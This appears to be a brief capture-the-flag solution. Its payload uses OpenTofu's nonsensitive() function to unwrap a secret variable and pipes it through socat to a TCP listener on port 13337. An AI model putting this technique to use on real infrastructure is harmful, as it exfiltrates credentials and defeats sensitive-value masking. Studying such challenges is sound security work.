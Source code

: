 # Solution

Payload;

``` 
nonsensitive(urlencode(var.SECRET)) | socat - TCP:localhost:13337
```

For more;

https://opentofu.org/docs/language/functions/nonsensitive/